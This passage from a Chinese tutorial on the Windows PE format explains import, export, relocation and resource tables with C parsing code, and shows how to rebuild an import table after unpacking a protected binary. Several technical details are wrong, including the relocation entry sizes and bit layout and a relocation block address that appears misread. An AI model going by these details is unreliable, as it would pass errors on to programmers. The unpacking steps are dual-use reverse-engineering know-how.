现在我们来分析下上图，导入表中`IMAGE_IMPORT_DESCRIPTOR`结构的NAME字段指向字符串`Kernel32.dll`表明当前程序要从`Kernel32.dll`文件中导入函数，`OriginalFirstThunk`和`FirstThunk`字段指向两个同样的`IMAGE_THUNK_DATA`数组，由于要导入4个函数，所有数组中包含4个有效项目并以最后一个内容为0的项目作为结束。

第4个函数是以序号导入的，与其对应的`IMAGE_THUNK_DATA`结构最高位等于1，和函数的序号0010h组合起来的数值就是`80000010h`，其余的3个函数采用的是以函数名方式导入，所以`IMAGE_THUNK_DATA`结构的数值是一个RVA，分别指向3个`IMAGE_IMPORT_BY_NAME`结构，每个结构的第一个字段是函数的序号，后面就是函数的字符串名称了，一切就这么简单！

上图为什么会出现两个一模一样的`IMAGE_THUNK_DATA`数组结构呢? 这是因为PE装载器会将其中一个结构修改为函数的地址`jmp dword ptr[xxxx]`其中的xxxx就是由`FirstThunk`字段指向的那个数组中的一员。

实际上当PE文件被装载入内存后，内存中的映像会被Windows修正为如下图所示的样子：



其中由`FristThunk`字段指向的那个数组中的每个双字都被替换成了真正的函数入口地址，之所以在PE文件中使用两份`IMAGE_THUNK_DATA`数组的拷贝并修改其中的一份，是为了最后还可以留下一份备份数据用来反过来查询地址所对应的导入函数名。

#### 2.5.3 枚举导入表流程

通过编程实现读取导入表数据，首先通过`(PIMAGE_IMPORT_DESCRIPTOR)(RVAtoFOA(rav) + GlobalFileBase)`找到导入表结构体，并以此通过循环的方式输出每一个导入表中导入函数即可，这段代码实现如下所示；
```c
int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        // 1. 从数据目录表的下标为1的项找到 rva
        DWORD rav = NtHeader->OptionalHeader.DataDirectory[1].VirtualAddress;

        // 2. 找到导入表结构体
        auto ImportTable = (PIMAGE_IMPORT_DESCRIPTOR)(RVAtoFOA(rav) + GlobalFileBase);

        // 3. 遍历导入表数组，数组以全0结尾
        while (ImportTable->Name)
        {
            // 4. 输出对应DLL的名字
            CHAR* DllName = (CHAR*)(RVAtoFOA(ImportTable->Name) + GlobalFileBase);
            // printf("----> [遍历模块: %s] \n", DllName);
            printf("Hint值 \t\t API序号 \t 文件RVA \t VA地址 \t 函数名称 \t 模块: [ %s ] \n", DllName);
            // 5. 找到 IAT 表(文件中的导入表)
            auto Iat = (PIMAGE_THUNK_DATA)(RVAtoFOA(ImportTable->FirstThunk) + GlobalFileBase);
            // 这个是INT内存中的导入表
            auto Int = (PIMAGE_THUNK_DATA)(RVAtoFOA(ImportTable->OriginalFirstThunk) + GlobalFileBase);

            // 6. 遍历 IAT表 ,直到遇到 全 0 结束遍历
            while (Iat->u1.Ordinal != 0)
            {
                // 7. 判断是否有名字
                if (Iat->u1.AddressOfData & 0x80000000)
                {
                    // 序号导入，直接输出
                    printf("[%5d] \t [None] \n", LOWORD(Iat->u1.AddressOfData));
                }
                else
                {
                    // 找到名字结构体
                    auto Name = (PIMAGE_IMPORT_BY_NAME)(RVAtoFOA(Iat->u1.AddressOfData) + GlobalFileBase);

                    // 通过ImageBase与AddressOfData 相加得到VA
                    DWORD ImageBase = NtHeader->OptionalHeader.ImageBase;
                    DWORD VA = Iat->u1.AddressOfData + ImageBase;
                    printf("[%5d] \t %09d \t %08X \t %08X \t %s \n",
                        Name->Hint, Iat->u1.Ordinal, RVAtoFOA(Iat->u1.AddressOfData), VA, Name->Name);
                }
                ++Iat;
            }
            // 指向下一个结构
            ImportTable++;
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

编译并运行上述代码，则可输出当前程序中的所有导入函数信息，输出效果如下图所示；



### 2.6 导出表详细解析

导出表（Export Table）是Windows可执行文件中的一个结构，记录了可执行文件中某些函数或变量的名称和地址，这些名称和地址可以供其他程序调用或使用。当PE文件执行时Windows装载器将文件装入内存并将导入表中登记的DLL文件一并装入，再根据DLL文件中函数的导出信息对可执行文件的导入表(IAT)进行修正。

导出表中包含了三种信息：

 - 函数名称：记录了可执行文件中导出函数的名称，在其他程序中调用时需要用到这个名称。
 - 函数地址：记录了可执行文件中导出函数的地址，使用时需要调用该函数的地址。
 - 函数序号：记录了每个导出函数的序号，可以通过序号直接调用函数。

导出函数的DLL文件中，导出信息被保存在导出表，导出表就是记载着动态链接库的一些导出信息。通过导出表，DLL文件可以向系统提供导出函数的名称、序号和入口地址等信息，以便Windows装载器能够通过这些信息来完成动态链接的整个过程。

导出函数存储在PE文件的导出表里，导出表的位置存放在PE文件头中的数据目录表中，与导出表对应的项目是数据目录中的首个`IMAGE_DATA_DIRECTORY`结构，从这个结构的`VirtualAddress`字段得到的就是导出表的RVA值，导出表同样可以使用函数名或序号这两种方法导出函数。

导出表的起始位置有一个`IMAGE_EXPORT_DIRECTORY`结构与导入表中有多个`IMAGE_IMPORT_DESCRIPTOR`结构不同，导出表只有一个`IMAGE_EXPORT_DIRECTORY`结构，该结构定义如下：
```C
typedef struct _IMAGE_EXPORT_DIRECTORY
{
    DWORD   Characteristics;       // 保留,恒为0x00000000
    DWORD   TimeDateStamp;         // 文件的产生时间戳
    WORD    MajorVersion;          // 主版本号
    WORD    MinorVersion;          // 次版本号
    DWORD   Name;                  // 指向文件名的RVA
    DWORD   Base;                  // 导出函数的起始序号
    DWORD   NumberOfFunctions;     // 导出函数总数
    DWORD   NumberOfNames;         // 以名称导出函数的总数
    DWORD   AddressOfFunctions;    // 导出函数地址表的RVA
    DWORD   AddressOfNames;        // 函数名称地址表的RVA
    DWORD   AddressOfNameOrdinals; // 函数名序号表的RVA
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;
```
上面的`_IMAGE_EXPORT_DIRECTORY `结构如果总结成一张图，如下所示：



在上图中最左侧`AddressOfNames`结构成员指向了一个数组，数组里保存着一组RVA，每个RVA指向一个字符串即导出的函数名，与这个函数名对应的是`AddressOfNameOrdinals`中的结构成员，该对应项存储的正是函数的唯一编号并与`AddressOfFunctions`结构成员相关联，形成了一个导出链式结构体。

获取导出函数地址时，先在`AddressOfNames`中找到对应的名字`MyFunc1`，该函数在`AddressOfNames`中是第1项，然后从`AddressOfNameOrdinals`中取出第1项的值这里是1，然后就可以通过导出函数的序号`AddressOfFunctions[1]`取出函数的入口RVA，然后通过RVA加上模块基址便是第一个导出函数的地址，向后每次相加导出函数偏移即可依次遍历出所有的导出函数地址，代码如下所示：

```c
int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/lyshark.dll"), 0);

    if (PE == TRUE)
    {
        // 0. 获取到ImageBase镜像基地址
        DWORD ImageBase = NtHeader->OptionalHeader.ImageBase;

        // 1. 从数据目录表的下标为 0 的项找到rva
        DWORD rav = NtHeader->OptionalHeader.DataDirectory[0].VirtualAddress;

        // 2. 找到导入表结构体
        auto ExportTable = (PIMAGE_EXPORT_DIRECTORY)(RVAtoFOA(rav) + GlobalFileBase);

        // 3. 获取有名字的个数和函数总个数
        DWORD NameCount = ExportTable->NumberOfNames;
        DWORD FunctionCount = ExportTable->NumberOfFunctions;

        // 4. 获取三张表,分别是 地址表，名称表，序号表，其中序号表是WORD
        DWORD* Addr_Table = (DWORD*)(RVAtoFOA(ExportTable->AddressOfFunctions) + GlobalFileBase);
        DWORD* Name_Table = (DWORD*)(RVAtoFOA(ExportTable->AddressOfNames) + GlobalFileBase);
        WORD* Id_Table = (WORD*)(RVAtoFOA(ExportTable->AddressOfNameOrdinals) + GlobalFileBase);

        printf("序号 \t 导出RVA地址 \t 导出VA地址 \t 导出FOA地址 \t 导出函数 \t \n");

        // 5. 遍历地址表
        for (DWORD i = 0; i < FunctionCount; ++i)
        {
            bool HaveName = FALSE;

            // 6. 判断是否有名字，有名字的话，下标会存在序号表中
            for (DWORD j = 0; j < NameCount; ++j)
            {
                // 如果有名字则执行此处
                if (i == Id_Table[j])
                {
                    HaveName = TRUE;
                    // 对应序号表下标的名称表内保存的是名字
                    CHAR* Name = (CHAR*)(RVAtoFOA(Name_Table[j]) + GlobalFileBase);
                    printf("%5d \t %10p \t 0x%08X \t 0x%08X \t %-35s \n",
                        i + ExportTable->Base, Addr_Table[i], ImageBase + Addr_Table[i], RVAtoFOA(Addr_Table[i]), Name);
                    break;
                }
            }
            // 如果全部找完还没有名字
            if (HaveName == FALSE)
            {
                printf("%5d \t %10p \t 0x%08X \t 0x%08X \t None \n",
                    i + ExportTable->Base, Addr_Table[i], ImageBase + Addr_Table[i], RVAtoFOA(Addr_Table[i]));
            }
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

运行如上程序片段，则会输出`lyshark.dll`动态链接库里面所有的导出函数，其输出效果如下图所示；



### 2.7 重定位表详细解析

重定位表（Relocation Table）是Windows PE可执行文件中的一部分，主要记录了与地址相关的信息，它在程序加载和运行时被用来修改程序代码中的地址的值，因为程序在不同的内存地址中加载时，程序中使用到的地址也会受到影响，因此需要重定位表这个数据结构来完成这些地址值的修正。

当程序需要被加载到不同的内存地址时，相关的地址值需要进行修正，否则程序运行会出现异常。而重定位表就是记录了在程序加载时需要修正的地址值的相关信息，包括修正地址的位置、需要修正的字节数、需要修正的地址的类型等。重定位表中的每个记录都称为一项（entry），每个entry包含了需要修正的地址值的详细信息，通常是以可变长度数据的形式存储在一个或多个叫做重定位块（relocation block）的数据结构中。

解析重定位表需要通过`PIMAGE_BASE_RELOCATION`这个关键结构体来实现，`PIMAGE_BASE_RELOCATION`是一个指向重定位表（Relocation Table）的指针类型，它是Windows PE可执行文件中用于支持动态基地址重定位`（Dynamic Base Relocation）`的结构体类型。在2GB以上的虚拟地址下，Windows使用了`Dynamic Base Relocation`技术来提高系统的安全性，`PIMAGE_BASE_RELOCATION`就是在这种情况下使用的。

由于Windows系统中DLL文件并不能每次都能加载到预设的基址上，因此基址重定位主要应用于DLL文件中，通常涉及到直接寻址的指令就需要重定位，重定位信息是在编译时，由编译器生成并被保存在可执行文件中的，在程序被执行前，由操作系统根据重定位信息修正代码，这样在开发程序的时候就不用了考虑重定位问题了，我们还是使用上面的这段汇编代码。

```C
00D21000 | 6A 00              | push 0x0                            |
00D21002 | 68 0030D200        | push main.D23000                    |  
00D21007 | 68 0730D200        | push main.D23007                    |  
00D2100C | 6A 00              | push 0x0                            |
00D2100E | E8 07000000        | call <JMP.0x00D2101A>               | call MessageBox
00D21013 | 6A 00              | push 0x0                            |
00D21015 | E8 06000000        | call <JMP.0x00D21020>               | call ExitProcess
00801017 | CC                 | int3                                |
00D2101A | FF25 0820D200      | jmp dword ptr ds:[<&0x00D22008>]    | 导入函数地址
00D21020 | FF25 0020D200      | jmp dword ptr ds:[<&0x00D22000>]    | 导入函数地址
```

如上`jmp dword ptr ds:[<&0x00D22008>]`这段代码就是一句需要重定位的代码，当程序的基地址位于`0x00D20000`时，这段代码中的函数可以被正常调用，但有时程序会开启基址随机化，或DLL被动态装载等问题，此时基地址可能会发生变化，那么上面的汇编指令调用就会失效，这就意味着这些地址需要被修正。

此时我们假设程序基址变为了`0x400000`,那么`jmp dword ptr ds:[<&0x00D22008>]`这条指令就需要被修正，修正算法可以描述为，将直接寻址指令中的地址加上模块实际装入地址与模块建议装入地址之差，为了进行运算需要3个数据，首先是需要修正机器码地址，其次是模块建议装入地址，最后是模块的实际装入地址。

在这3个数据中，模块的建议装入地址已经在PE文件头中定义了，而模块的实际装入地址时Windows装载器在装载文件时确定的，事实上PE文件重定位表中保存的仅仅只是，一大堆需要修正的代码的地址。

**重定位表IMAGE_BASE_RELOCATION解析**

重定位表会被单独存放在`.reloc`命名的节中，重定位表的位置和大小可以从数据目录中的第6个`IMAGE_DATA_DIRECTORY`结构中获取到，该表的组织方式时以`0x1000`页为一块，每一块负责一页，从PE文件头获取到重定位表地址后，就可以顺序读取到所有表结构，每个重定位块以一个`IMAGE_BASE_RELOCATION`结构开头，后面跟着在本页中使用的所有重定位项，每个重定位项占用16字节，最后一个节点是一个使用0填充的`_IMAGE_BASE_RELOCATION`标志表的结束，其结构如下所示:

```C
typedef struct _IMAGE_BASE_RELOCATION
{   
    DWORD   VirtualAddress;                      // 需重定位数据的起始RVA   
    DWORD   SizeOfBlock;                         // 本结构与TypeOffset总大小 
    WORD    TypeOffset[1];                       // 原则上不属于本结构 
} IMAGE_BASE_RELOCATION; typedef  IMAGE_BASE_RELOCATION UNALIGNED IMAGE_BASE_RELOCATION;
```

TypeOffset的元素个数 = （SizeOfBlock - 8 ）/ 2 TypeOffset的每个元素都是一个自定义类型结构

```C
struct
{
    WORD Offset:12;  // 大小为12Bit的重定位偏移 
    WORD Type  :4;   // 大小为4Bit的重定位信息类型值 
}TypeOffset;         // 这个结构体是A1Pass总结的
```

PIMAGE_BASE_RELOCATION指针指向PE文件中的重定位表（Relocation Table）的起始地址，重定位表是一个可变长度的数据结构，其中包含了一组以4个字节为单位的记录，每个记录表示一个需要修正的地址及其操作类型。
```c
typedef struct _IMAGE_BASE_RELOCATION
{
    DWORD   VirtualAddress;
    DWORD   SizeOfBlock;
//  WORD    TypeOffset[1];
} IMAGE_BASE_RELOCATION;
typedef IMAGE_BASE_RELOCATION UNALIGNED * PIMAGE_BASE_RELOCATION;
```

每个重定位表项（Relocation Table Entry）包括两部分：前16位表示需要修正的地址的偏移量（Offset），后16位则表示需要对该地址进行什么样的修正操作（Relocation Type）。普通的重定位项类型有如下几种：

 - IMAGE_REL_BASED_ABSOLUTE：表示不需要进行任何修正；
 - IMAGE_REL_BASED_HIGHLOW：表示需要将地址中的低16位和高16位分别进行修正；
 - IMAGE_REL_BASED_DIR64：表示需要对64位指针进行修正；

当读者需要遍历这个表时，首先可以通过`NtHeader->OptionalHeader.DataDirectory[5].VirtualAddress`获取到重定位表的相对信息，并通过`(PIMAGE_BASE_RELOCATION)(GlobalFileBase + RVAtoFOA(RelocRVA))`得到重定位表的FOA文件地址，在`Reloc->SizeOfBlock`变量内获取到重定位块，并循环输出则可实现枚举所有重定位块；
```c
// --------------------------------------------------
// 重定位表解析结构体
// --------------------------------------------------
struct TypeOffset
{
    WORD Offset : 12;       // 低12位代表重定位地址
    WORD Type : 4;          // 高4位代表重定位类型
};

int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        // 1.拿到映像基地址
        DWORD base = NtHeader->OptionalHeader.ImageBase;

        // 2.获取重定位表的RVA 相对偏移
        DWORD RelocRVA = NtHeader->OptionalHeader.DataDirectory[5].VirtualAddress;

        // 3.获取重定位表FOA
        auto Reloc = (PIMAGE_BASE_RELOCATION)(GlobalFileBase + RVAtoFOA(RelocRVA));

        printf("映像基址: %08X 虚拟偏移: %08X 重定位表基址: %08X \n", base, RelocRVA, Reloc);

        // 4.遍历重定位表中的重定位块,以0结尾
        while (Reloc->SizeOfBlock != 0)
        {
            // 计算出重定位项个数 \ 2 = 重定位项的个数，原因是重定位项的大小为2字节
            DWORD Size = (Reloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2;

            // 输出VirtualAddress分页基址 与SizeOfBlock重定位块长度
            printf("起始RVA: %08X \t 块长度: %04d \t 重定位个数: %04d \n", Reloc->VirtualAddress, Reloc->SizeOfBlock, Size);

            // 找到下一个重定位块
            Reloc = (PIMAGE_BASE_RELOCATION)((DWORD)Reloc + Reloc->SizeOfBlock);
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

编译并运行上述代码片段，则读者可以看到当前程序内所具备的重定位块及该块的内存地址，输出效果图如下所示；



上图中我们得到了`0x905a4d00`这个内存地址，该内存地址代表的则是重定位表中一个块的基址，如果我们需要得到该基址内的其他重定位信息，则需要进一步遍历，这个遍历过程只需要更加细化将如上代码片段进行更改，增加更加细致的枚举过程即可，更改后的代码片段如下所示；
```c
// --------------------------------------------------
// 传入一个十六进制字符串，将其自动转化为十进制格式：例如传入40158b转为4199819
// --------------------------------------------------
int HexStringToDec(char hexStr[])
{
    int i, m, n, temp = 0;

    // 循环读入每一个十六进制数
    m = strlen(hexStr);
    for (i = 0; i < m; i++)
    {
        // 十六进制还要判断他是不是在A-F或0-9之间的数
        if (hexStr[i] >= 'A' && hexStr[i] <= 'F')
            n = hexStr[i] - 'A' + 10;
        else if (hexStr[i] >= 'a' && hexStr[i] <= 'f')
            n = hexStr[i] - 'a' + 10;
        else n = hexStr[i] - '0';
        // 将数据加起来
        temp = temp * 16 + n;
    }
    return temp;
}

int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);
    char * GetRva = "0x905a4d00";

    if (PE == TRUE)
    {
        DWORD base = NtHeader->OptionalHeader.ImageBase;

        // 1. 获取重定位表的 rva
        DWORD RelocRVA = NtHeader->OptionalHeader.DataDirectory[5].VirtualAddress;

        // 2. 获取重定位表
        auto Reloc = (PIMAGE_BASE_RELOCATION)(GlobalFileBase + RVAtoFOA(RelocRVA));

        printf("起始RVA \t 类型 \t 重定位RVA \t 重定位地址 \t 修正RVA \n");

        // 起始RVA:% 08X-- > 类型:% d-- > 重定位RVA:% 08X-- > 重定位地址:% 08X 修正RVA : % 08X

        // 3. 遍历重定位表中的重定位块，以0结尾
        while (Reloc->SizeOfBlock != 0)
        {
            // 3.2 找到重定位项
            auto Offset = (TypeOffset*)(Reloc + 1);

            // 3.3 计算重定位项的个数
            DWORD Size = (Reloc->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / 2;

            // 3.4 遍历所有的重定位项
            for (DWORD i = 0; i < Size; ++i)
            {
                // 获取重定位类型，只关心为3的类型
                DWORD Type = Offset[i].Type;

                // 获取重定位的偏移值
                DWORD pianyi = Offset[i].Offset;

                // 获取要重定位的地址所在的RVA： offset+virtualaddress
                DWORD rva = pianyi + Reloc->VirtualAddress;

                // 获取要重定位的地址所在的FOA
                DWORD foa = RVAtoFOA(rva);

                // 获取要重定位的地址所在的fa
                DWORD fa = foa + GlobalFileBase;

                // 获取要重定位的地址
                DWORD addr = *(DWORD*)fa;

                // 计算重定位后的数据: addr - oldbase + newbase
                DWORD new_addr = addr - base;

                // 如果传入了数值，则说明要遍历特定的重定位表项
                if (Reloc->VirtualAddress == HexStringToDec(GetRva))
                {
                    printf("%08X \t %d \t %08X \t %08X \t%08X \n", Reloc->VirtualAddress, Type, rva, addr, new_addr);
                }
                // 否则如果不传参数，则默认遍历全部RVA
                else if (strcmp(GetRva, "all") == 0)
                {
                    printf("%08X \t %d \t %08X \t %08X \t%08X \n", Reloc->VirtualAddress, Type, rva, addr, new_addr);
                }
            }
            // 找到下一个重定位块
            Reloc = (PIMAGE_BASE_RELOCATION)((DWORD)Reloc + Reloc->SizeOfBlock);
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

当读者运行这段程序，则会输出`0x905a4d00`这段内存地址中所具有的所有重定位信息，输出效果图如下图所示；



### 2.8 资源表详细解析

在Windows PE中，资源是指可执行文件中存放的一些固定不变的数据集合，例如图标、对话框、字符串、位图、版本信息等。PE文件中每个资源都会被分配对应的唯一资源ID，以便在运行时能够方便地查找和调用它们。PE文件中的资源都被组织成一个树形结构，其中最顶层为根节点（Root），下一级为资源类型（Type），再下一级为资源名称（Name），最终是实际的资源内容。

PIMAGE_RESOURCE_DIRECTORY是Windows PE可执行文件中的一个结构类型，用于描述资源（Resource）的树形结构，其中包括了每个资源的类型（Type）、名称（Name）和语言（Language），以及指向下一级PE资源目录的地址和相关信息等。
```c
typedef struct _IMAGE_RESOURCE_DIRECTORY_ENTRY
{
    union {
        struct {
            DWORD NameOffset:31;
            DWORD NameIsString:1;
        } DUMMYSTRUCTNAME;
        DWORD   Name;
        WORD    Id;
    } DUMMYUNIONNAME;
    union {
        DWORD   OffsetToData;
        struct {
            DWORD   OffsetToDirectory:31;
            DWORD   DataIsDirectory:1;
        } DUMMYSTRUCTNAME2;
    } DUMMYUNIONNAME2;
} IMAGE_RESOURCE_DIRECTORY_ENTRY, *PIMAGE_RESOURCE_DIRECTORY_ENTRY;
```

PIMAGE_RESOURCE_DIRECTORY描述了Windows PE资源的目录结构，每个资源目录包括以下字段：

 - Characteristics：指定该目录的属性，如是否允许命名、是否允许ID等；
 - TimeDateStamp：指定该目录的时间戳；
 - MajorVersion / MinorVersion：指定PE文件中允许的最高版本和最低版本；
 - NumberOfNamedEntries：指定该目录中已经命名的资源条目数量；
 - NumberOfIdEntries：指定资源ID类型的数量；
 - PIMAGE_RESOURCE_DIRECTORY_ENTRY：指针，指向资源入口表，即PE文件中每个资源的入口地址。
 - PIMAGE_RESOURCE_DIRECTORY_ENTRY用于引用PE文件中资源的名称、类型和语言信息，它包括了Name/Id：指定资源的名称或ID，根据缩小范围的优先级进行查找，ID的优先级高于名称；
 - OffsetToData：指向该资源的数据偏移地址或其Resource Data Entry的地址。

读者在解析时通常需要在数据目录表`PIMAGE_DATA_DIRECTORY`中定位到`IMAGE_DIRECTORY_ENTRY_RESOURCE`资源表，通过循环的方式以此遍历出`PIMAGE_RESOURCE_DIRECTORY_ENTRY`中的每一个节点，最终输出资源信息，这段输出代码如下所示；
```c
// --------------------------------------------------
// 定义资源表解析结构
// --------------------------------------------------
static char* szResName[0x11] = { 0, (char*)"鼠标指针", (char*)"位图", (char*)"图标", (char*)"菜单", (char*)"对话框", (char*)"字符串列表", (char*)"字体目录", (char*)"字体", (char*)"快捷键", (char*)"非格式化资源", (char*)"消息列表", (char*)"鼠标指针组", (char*)"zz", (char*)"图标组", (char*)"xx", (char*)"版本信息" };


int main(int argc, char * argv[])
{
    BOOL PE = IsPeFile(OpenPeFile("c://pe/x86.exe"), 0);

    if (PE == TRUE)
    {
        // 获取数据目录表
        PIMAGE_DATA_DIRECTORY pData = NtHeader->OptionalHeader.DataDirectory;

        // 获取到资源目录表
        pData = &(pData[IMAGE_DIRECTORY_ENTRY_RESOURCE]);

        // 获取资源目录表的偏移
        DWORD dwResOffset = RVAtoFOA(pData->VirtualAddress);

        // 获取到资源目录表
        PIMAGE_RESOURCE_DIRECTORY pRes = (PIMAGE_RESOURCE_DIRECTORY)(GlobalFileBase + dwResOffset);

        // 获取紧跟着的IMAGE_RESOURCE_DIRECTORY_ENTRY的个数
        DWORD dwResSize = pRes->NumberOfNamedEntries + pRes->NumberOfIdEntries;

        // 获取到PIMAGE_RESOURCE_DIRECTORY_ENTRY 
        PIMAGE_RESOURCE_DIRECTORY_ENTRY  pResEntry = (PIMAGE_RESOURCE_DIRECTORY_ENTRY)(pRes + 1);

        printf("资源类型ID \t 类型 \n");

        for (DWORD i = 0; i < dwResSize; i++)
        {

            // 如果为0则执行
            if (!pResEntry[i].NameIsString)
            {
                if (pResEntry[i].Id < 0x11)
                {
                    // printf("资源类型ID: %p --> 类型: %s\n", pResEntry[i].Id, szResName[pResEntry[i].Id]);
                    printf("%p \t %s \n", pResEntry[i].Id, szResName[pResEntry[i].Id]);
                }
                else
                {
                    char  type[20];
                    sprintf_s(type, "%d", pResEntry[i].Id);
                    // printf("资源类型ID: %p --> 类型: %s\n", pResEntry[i].Id, type);
                    printf("%p \t %s \n", pResEntry[i].Id, type);
                }
            }
            // 如果为1则执行
            else
            {
                PIMAGE_RESOURCE_DIR_STRING_U pstcString = (PIMAGE_RESOURCE_DIR_STRING_U)((DWORD)pRes + pResEntry[i].NameOffset);
                WCHAR szStr[MAX_PATH] = { 0 };
                memcpy_s(szStr, MAX_PATH, pstcString->NameString, pstcString->Length * sizeof(WCHAR));
                // printf("资源字符串: %ls\n", szStr);
            }
        }
    }
    else
    {
        printf("非标准程序 \n");
    }

    system("pause");
    return 0;
}
```

编译并运行上述程序片段，则读者可以看到当前程序中所包含的所有资源信息，为了简单可用此处并没有输出递归资源，仅仅输出了第一层，输出效果图如下所示；



### 2.9 重建导入表

脱壳修复是指在进行加壳保护后的二进制程序脱壳操作后，由于加壳操作的不同，有些程序的导入表可能会受到影响，导致脱壳后程序无法正常运行。因此，需要进行修复操作，将脱壳前的导入表覆盖到脱壳后的程序中，以使程序恢复正常运行。一般情况下，导入表被分为IAT（Import Address Table，导入地址表）和INT（Import Name Table，导入名称表）两个部分，其中IAT存储着导入函数的地址，而INT存储着导入函数的名称。在脱壳修复中，一般是通过将脱壳前和脱壳后的输入表进行对比，找出IAT和INT表中不一致的地方，然后将脱壳前的输入表覆盖到脱壳后的程序中，以完成修复操作。

数据目录表的第二个成员指向导入表，该指针在PE开头位置向下偏移`0x80h`处，此处PE开始位置为`0xF0h`也就是说导入表偏移地址应该在`0xf0+0x80h=170h`如下图中，导入表相对偏移为`0x21d4h`。



这个地址的读取同样可以使用`PeView`工具得到，通过输入`DataDirectory`读者可看到如下图所示的输出信息，其中第二行则是导入表的地址。



这里的`0x21d4`是一个RVA地址，需要将其转换为磁盘文件FOA偏移才能定位到导入表在文件中的位置，使用`RvaToFoa`命令可快速完成计算，转换后的文件偏移为`0x11d4`



此处我们也可以通过使用虚拟偏移地址减去实际偏移地址来得到这个参数，由于`0x21d4`位于`.rdata`节，此时的`rdata`虚拟偏移是`0x2000`而实际偏移则是`0x1000`通过使用`2000h-1000h=1000h`，接着再通过`0x21d4h-0x1000h=11D4h`同样可以得到相对`FOA`文件偏移。



我们通过使用`WinHex`工具跳转到`11d4`位置处，读者此时能看到如下图所示的地址信息。



如上图就是导入表中的`IID`数组，每个`IID`结构包含一个装入`DLL`的描述信息，现在有三个导入DLL文件，则第四个是一个全部填充为0的结构，标志着IID数组的结束，每一个结构有五个四字节构成，该结构体定义如下所示；

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR
{
    union
    {
        DWORD   Characteristics;
        DWORD   OriginalFirstThunk;
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;
    DWORD   ForwarderChain;
    DWORD   Name;
    DWORD   FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR;
typedef IMAGE_IMPORT_DESCRIPTOR UNALIGNED *PIMAGE_IMPORT_DESCRIPTOR;
```

我们以第一个调用动态链接库为例，其地址与结构的说明如下所示：

- 0000 22C0 => OrignalFirstThunk => 指向输入名称表INT的RVA
- 0000 0000 => TimeDateStamp => 指向一个32位时间戳,默认此处为0
- 0000 0000 => ForwardChain => 转向API索引，默认为0
- 0000 244A => Name => 指向DLL名字的指针
- 0000 209C => FirstThunk => 指向输入地址表IAT的RVA

每个IID结构的第四个字段指向的是`DLL`名称的地址，以第一个动态链接库为例，其RVA是`0000 244A` 将其减去`1000h`得到文件偏移`144A`，跳转过去看看，调用的是`USER32.dll`库。



上方提到的两个字段`OrignalFirstThunk`和`FirstThunk`都可以指向导入结构，在实际装入中，当程序中的`OrignalFirstThunk`值为0时，则就要看`FirstThunk`里面的数据，FirstThunk常被叫做`IAT`它是在程序初始化时被动态填充的，而`OrignalFirstThunk`常被叫做`INT`，它是不可改变的，之所以会保留两份是因为，有些时候会存在反查的需求，保留两份是为了更方便的实现。

在上述流程中，我们找到了`User32.dll`的`OrignalFirstThunk`，其地址为`22C0`，使用该值减去`1000h` 得到 `12c0h`，在偏移为`12c0h`处保存的就是一个`IMAGE_THUNK_DATA32`数组，他存储的内容就是指向 `IMAGE_IMPORT_BY_NAME` 结构的地址，最后一个元素以一串`0000 0000`作为结束标志，先来看一下`IMAGE_THUNK_DATA32`的定义规范。

```c
typedef struct _IMAGE_THUNK_DATA32
{
    union
    {
        DWORD ForwarderString;
        DWORD Function;
        DWORD Ordinal;
        DWORD AddressOfData;
    } u1;
} IMAGE_THUNK_DATA32;
typedef IMAGE_THUNK_DATA32 * PIMAGE_THUNK_DATA32;
```

直接使用`WinHex`定位到`12c0h`地址处，此处就是`OrignalFirstThunk`中保存的`INT`的内容，如下图，除去最后一个结束符`00000000`以外，一共有`19`个四字节，则说明`User32.dll`中导入了`19`个`API`函数。



再来看一下`FirstThunk`也就是`IAT`中的内容，由于`User32`的`FirstThunk`字段默认值是`209C`，使用该值减去`1000h`即可得到`109ch`，此处就是IAT的内容，使用`WinHex`定位过去，可以发现两者内容时完全一致的。



接着我们以第一个导入`RVA`地址`0000243Eh`，用该值减去`1000h`得到`143Eh`，定位过去正好是`EndDialog`的字符串，同样的方式，第二个导入RVA地址`0000242ch`，用该值减去`1000h`得到`142ch` 定位过去正好是`PostQuitMessage`的字符串，如下图绿色部分所示。



如上图中我们已第二个函数`PostQuitMessage`为例，前两个字节`0271h`表示的是`Hint`值，后面的蓝色部分则是`PostQuitMessage`字符串，最后的0标志结束标志。

当程序被运行前，它的`FirstThunk`值与`OrignalFirstThunk`字段都指向同一片`INT`中，此处我们使用`LyDebugger`工具对程序进行内存转存，执行命令`LyDebugger DumpMemory --path Win32Project.exe`生成`dump.exe`文件，该文件则是内存中的镜像数据。



当程序运行后，`OrignalFirstThunk`字段不会发生变化，但是`FirstThunk`值的指向已经改变，系统在装入内存时会自动将`FirstThunk`指向的偏移转化为一个个真正的函数地址，并回写到原始空间中，定位到`dump.exe`文件`FirstThunk `输入表RVA地址处`209Ch`查看，如下图；



接着定位到`OrignalFirstThunk`处，也就是`22c0h`，观察可发现，绿色的`INT`并没有变化，但是黄色的`IAT`则相应的发生了变化



我们以`IAT`中第一个`0x75f8ab90`为例，使用`x64dbg`跟进一下，则可知是载入内存后`EngDialog`的内存地址。



当系统装入内存后，其实只会用到`IAT`中的地址解析，输入表中的`INT`就已经不需要了，此地址每个系统之间都会不同，该地址是操作系统动态计算后填入的，这也是为什么会存在导入表这个东西的原因，就是为了解决不同系统间的互通问题。

